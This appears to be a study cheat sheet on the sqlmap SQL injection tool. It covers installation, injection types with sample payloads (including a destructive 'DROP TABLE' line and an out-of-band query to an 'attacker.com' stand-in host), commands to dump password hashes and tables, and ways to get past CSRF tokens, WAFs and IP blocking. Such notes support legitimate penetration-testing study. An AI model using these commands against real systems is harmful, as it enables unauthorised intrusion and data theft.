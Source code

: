 # SQLMap
- Free & Open Source
- Written in Python
- **Used for exploiting SQL Injection (SQLi) vulnerabilities**

## Installation
The easy way:
`$ sudo apt install sqlmap`

The hard[er] way:
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# Then run it
$ python sqlmap.py
```

## Supported Databases

| Database            | Database         | Database        | Database           |
|---------------------|------------------|-----------------|--------------------|
| MySQL               | Oracle           | PostgreSQL      | Microsoft SQL Server |
| SQLite              | IBM DB2          | Microsoft Access| Firebird           |
| Sybase              | SAP MaxDB        | Informix        | MariaDB            |
| HSQLDB              | CockroachDB      | TiDB            | MemSQL             |
| H2                  | MonetDB          | Apache Derby    | Amazon Redshift    |
| Vertica             | Mckoi            | Presto          | Altibase           |
| MimerSQL            | CrateDB          | Greenplum       | Drizzle            |
| Apache Ignite       | Cubrid           | InterSystems Cache | IRIS             |
| eXtremeDB           | FrontBase        |                 |                    |

## Heavily Supported Databases

| Database            | Database         | Database        | Database           | Database      |
|---------------------|------------------|-----------------|--------------------|---------------|
| MySQL               | PostgreSQL      | Oracle          | Microsoft SQL Server | Sybase       |
| Vertica             | IBM DB2         | Firebird        | MonetDB            |               |


### Get help
`$ sqlmap -h`

### Get MORE help (advanced version)
`$ sqlmap -hh`

## Types of SQL Injections

- The default is: `BEUSTQ`
  - B: Boolean-based blind
    - Ex. `AND 1=1`
    - Considered to be the most common type of SQLi vulnerability
  - E: Error-based
    - Ex. `AND GTID_SUBSET(@@version,0)`
    - Considered to be the fastest injection type, as it works by retrieving data in chunks
  - U: Union query-based
    - Ex. `UNION ALL SELECT 1,@@version,3`
    - Considered to be the fastest injection type
    - Ideally, we could get the entire database in one command
  - S: Stacked queries
    - Ex. `; DROP TABLE users`
    - Also known as "piggy backing"
    - "Stacking" must be supported by the database we are attacking
  - T: Time-based blind
    - Ex. `AND 1=IF(2>1,SLEEP(5),0)`
    - Considerably slower than Boolean-based blind SQL injection is not applicable
  - Q: Inline queries
    - Ex. `SELECT (SELECT @@version) from`
    - Works as an imbedded query within another query
    - Uncommon, as the website must be written in a certain way

- Advanced:
  - Out-of-band
    - Ex. `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

# Usage

- To run a basic exploitation against a target, we can do: `$ sqlmap -u "https://<target>?<param>=1" --batch`

## Running SQLMap on an HTTP Request

### cURL
- It's not uncommon to mess up correct SQLi vulnerability detection through overcomplication or forgetting cookes
- We can simplify this process by:
  - Right-clicking on any given request in the Network (Monitor) panel in the Developer Tools
  - Clicking `Copy as cURL`
  - Replacing `curl` with `sqlmap`
- This may be seen as: `$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'`

#### GET/POST Requests
- `GET` parameters are privded with the usage of option `-u` / `--url`
- `POST` parameters are provided with the usage of option `--data`
  - Ex. `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`
  - In the above instance, `uid` and `name` will be tested for SQLi
  - If we are already confident, say `uid` was vulnerable, we could add `-p uid` or `*`
    - `sqlmap 'http://www.example.com/' --data 'uid=1&name=test' -p uid`
    - `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`

#### Full HTTP Requests
- If we need to use the full HTTP request, we can specify the `-r` flag, followed by the request
- We can find the request in `Burp`
  - Then, copy/paste this file into a file, and specify the file following the `-r` flag

Example HTTP Request (`req.txt`):
```
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

Then: `$ sqlmap -r req.txt`

#### Custom SQLMap Requests
- When running a custom SQLMap command, we will likely need a few switches
  - **Session Cookie**: We can specify the session cookie in a few ways
    - `$ sqlmap ... --cookie='PHPSESSID=<cookie>'`
    - `$ sqlmap ... -H='Cookie:'PHPSESSID=<cookie>'`
    - `$ sqlmap ... --header='Cookie:PHPSESSID=<cookie>'`
  - **Random Agent**: We can use the `--random-agent` switch to randomly select a user-agent header value
  - **Method**: We can specify the HTTP method (as there are many) with the `--method` switch
  - **We can SQLi exploit more than just parameters. We may also exploit any other header, such as cookies
    - `$ sqlmap ... --cookie='id=1*'`

#### Custom HTTP Requests
- It is good to note that we may not only structure HTTP requests as we normally do (eg. `id=1`), but we may also use JSON (eg. `{"id":1}`) and XML (eg. `<element><id>1</id></element>`)

## Handling SQLMap Errors

- Display Errors: `--parse-errors`
- Store the Traffic: `-t <output file`
- Verbose Output: `-v <level [eg. 6]>`
- Proxy: `--proxy` to redirect through a MiTM proxy, such as Burp

## Attack Tuning

- Every payload sent to the target consists of:
  - vector (eg, `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.
  - boundaries (eg `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.
    - `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`

### Level/Risk
- `--level`: 1-5 (default: 1)
- `--risk`: 1-3 (default 1)

### Advanced Tuning
- **Status Codes**
-   `--code=<code>`
  - `200`: TRUE
  - `500`: FALSE
- **Titles**
-   `--titles <title>` compares title of HTML page (<title> tag)
- **Strings**
  - `--string=<string>`
    - `<string>` may be a value such as success or failure, or something totally different
- **Text-only**
  - `--text-only`: only shows visible content (eg. not <script>, <style>, <meta>, etc tags)
- **Techniques**
  - `technique=<technique>`
    Ex. `--technique=BEU` for Boolean-Based Blind, Error-Based, and UNION-query payloads
- **UNION SQLi Tuning**
  - `union-cols=<number_of_cols>`
    - Ex. `--union-cols=17` if we know the number of columns of the vulnerable SQL query
  - `--union-char='<character>'`
  - `--union-from=<table>`
 
## Database Enumeration

### SQLMap Data Exfiltration

- SQLMap has a predefined set of queries for all supported DBMSes
  - `--banner`: Database version banner
  - `--current-user`: Current user name
  - `--current-db`: Current database name
  - `--is-dba`: Checking if the current user has DBA (administrator) rights
  - `--passwords`: Password hashes
  - `--hostname`:  Hostname
  - Ex. `$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`
  - `--tables -D <database>`: Look at a tables in database <database>
  - `--dump -T <table> -D <database>`: Look at data in table <table> in database <database>
  - `--dump -T <table> -D <database> **-C <column>,<column2>**`: Only show certain columns
  - `--dump -T <table> -D <database> **--start=2 --stop=3**`: Specify start and stop rows (inclusive)
  - `--dump -T <table> -D <database> **--where="<condition>"**`: Get content of table based on WHERE condition
  - `--dump -D <database> --exclude-sysdbs`: Exclude system databases
  
**Advanced Commands**
- `--schema`: Retrieve the structure of all tables
- `--search <query>`: Search for databases, tables, and columns of interest
  - Ex. `--search -T user`: Search tables containing `user` keyword
  - Ex. `--search -C pass`: Search columns containing `pass` keyword

**Bypassing Web Application Protections**
- Anti CSRF (CSRF is most common)
  - To bypass this, we can append `--csrf-token="csrf-token"` to our command
  - Ex. `$ sqlmap -u "http://<target>" --method POST --data "id=1&t0ken=PLACEHOLDER" --csrf-token="t0ken" --dump`
- Unique Value Bypass
  - Some web pages require unique values to be provided in predefined parameters
    - This means we do not have to parse the page
  - To bypass this, we can append `--randomize=<parameter-name>` to our command
    - Ex. `$ sqlmap -u "http://<target>/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI`
- Calculator Parameter Bypass
  - This is used when a web app expects a parameter value to be calculated based upon some other parameter
  - To bypass this, we can append `--eval="<python_code>"` to our command
    - Ex. `$ sqlmap -u "http://<target>/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI`
- IP Address Concealing
  - If we need to conceal our ip address, or if we have been blacklisted:
    - We can use the `--proxy` option
      - We can view our proxies with `--proxy-file`
      - Ex. `--proxy="socks4://177.39.187.70:33283"`
    - We can use the TOR network
      - `--check-tor`: Confirm TOR is working appropriately (`Congratulations` will appear in the response)
      - `--tor`: SQLMap will automatically try to find the local port and use it appropriately
  - WAF Bypass
  - User-agent Blacklisting Bypass
  - Tamper Scripts
  - Miscellaneous Bypass
    - Chunked transfer encoding: Splits the POST request's body into so-called "chunks," which bypasses blocked SQL keywords
      - `--chunked`
    - HTTP parameter pollution (HPP): Payloads are split similarly as with chunking, but between different of the same parameter names (eg. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`)
   
# Understanding the output

- Common messages you may receive include:
  - **URL content is stable**: `target URL content is stable`
    - No major changes between responses in case of continuous identical requests
  - **Parameter appears to be dynamic**: `GET parameter '<param>' appears to be dynamic`
    - A "dynamic" parameter is one that would result in a change in response
      - This is desirable (as it is easy to determine
      - The parameter may be linked to a database
      - If the parameter is static, it may be an indicator the vvalue of the tested parameter is nont processed by the target
  - **Parameter might be vulnerable to XSS attacks**: `heuristic (XSS) test shows that GET parameter '<parameter>' might be vulnerable to cross-site scripting (XSS)`
    - This is an example of a DMBS error
    - Good indication of potential SQLi
    - SQLMap sent an intentionally invalid value (eg. ?<parameter>=1",)..).))')
    - **Not proof of SQLi**
  - **Back-end DBMS is '...'**: `it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]`
    - SQLMap normally tests for all supported DBMSes
    - If there is a clear DBMS in use, we can narrow down payloads to that specific DBMS
  - **Level/risk values**: `for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]`
    - May extend specific tests for a DBMS beyond regular tests, assuming we clearly understand the target's DBMS
  - **Reflective values found**: `reflective value(s) found and filtering out`
    - Simply a warning that parts of the used payloads are found in the response
      - May cause problems to automation tools, as it represents junk
      - However, SQLMap filters out such junk before comparing the original page content (most of the time)
  - **Parameter appears to be injectable**: `GET parameter '<parameter>' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")`
    - Indicates the parameter is injectable
      - May be a false-positive
        - SQLMap performs extensive testing consisting of simple logic checks for removal of false-positive findings to check for this
    - `with --string="luther"`: indicates SQLMap recognized and user the papearance of constant string value `luther` in the response for distinguishing `TRUE` from `FALSE` responses
      - Important as, in such cases, there is no need for the usage of advacned internal mechanisms, such as dynamicity/reflection or fuzzy comparison of responses, which cannot be considered as false-positive
  - **Time-based comparison statistical model**: `time-based comparison requires a larger statistical model, please wait........... (done)`
      - SQLMap uses a statistical model for the recognition of regular and (deliberately) delayed target responses
      - For this model to work, there is a requirement to collect a sufficient number of regular response times
        - This way, SQLMap can statistically distinguish between the deliberate delay even in the high-latency network environments
  - **Extending UNION query injection technique tests**: `automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found`
    - UNION-query SQLi checks require considerably more requests for successful recognition of usable payload than other SQLi types
    - To lower the testing time per parameter, especially if the target does not appear to be injectable, the number of requests is capped to a constant value
    - If there is a good chance the target is vulnerable, especially as one other (potential) SQLi technique is found, SQLMap extends the default number of requests for UNION query SQLi, because of a higher expectancy of success
  - **Technique appears to be usable**: `ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test`
    - `ORDER BY` is checked for usability
  - **Parameter is vulnerable**: `GET parameter '<target>' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`
    - **One of the most important messages of SQLMap**
    - Means the parameter was found to be vulnerable to SQL injections
    - We may stop here, or continue on to find more vulnerabilities
  - **SQLMap identified injection points**: `sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:`
    - A lsit of all injection points with type, title, and payloads follows
      - Final proof of successful detection and exploitation of found SQLi vulnerabilities
      - SQLMap only lists those findings which are provably exploitable (ie. usable)
  - **Data logged to text files=**: `fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com`
    - Indicates the local file system location used for storing logs, sessions, output data, etc (of a target)
    - SQLMap attempts to reduce the required target requests as much as possible, depending on the session files' data








